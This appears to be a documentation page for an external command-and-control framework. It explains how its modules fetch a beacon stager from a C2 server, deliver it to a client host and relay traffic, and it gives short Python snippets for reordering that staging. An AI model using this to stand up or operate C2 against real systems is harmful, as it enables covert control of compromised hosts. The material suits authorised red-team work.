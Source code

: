 ```python
```

## configureStage module
The `configureStage` module defines the logic for loading the beacon stager on the client host. Currently, it is configured to immediately retrieve the stager from the c2 server, transmit it to the client, and await for a response from the client. If you'd like to modify this order of operations, you can change the logic of the `configureStage.loadStager()` function.

For example, perhaps you'd like to receive some sort of confirmation that the client is ready before requesting a stager from the c2 server:

Instead of the default logic:
```python
configureOptions(sock, config.C2_ARCH, config.C2_PIPE_NAME, config.C2_BLOCK_TIME)
stager_payload = requestStager(sock)
commonUtils.sendData(stager_payload)
metadata = commonUtils.retrieveData()
commonUtils.sendFrameToC2(sock, metadata)
return 0
```

You may want something like this:
```python
configureOptions(sock, config.C2_ARCH, config.C2_PIPE_NAME, config.C2_BLOCK_TIME)

# Receive the ready notification from the client
clientReady = commonUtils.retrieveData()

# Request the stager now that the client is ready
stager_payload = requestStager(sock)
commonUtils.sendData(stager_payload)
metadata = commonUtils.retrieveData()
commonUtils.sendFrameToC2(sock, metadata)
return 0
```

## establishedSession module
The `establishedSession` module defines the logic for how the server communicates to a client that the client once it has injected the beacon payload. There isn't much need to make modifications to this logic, as it primarily exists to increase readability.

## utils modules
The `utils` module holds the `commonUtils.py` submodule, and the various `transport` and `encoder` modules available.
The `commonUtils` sub-module provides common functions that can be utilized in other areas.
The `encoders` and `transports` folders hold the various available transports and encoders available.

### encoders
---
Encoders use the following name conventions:
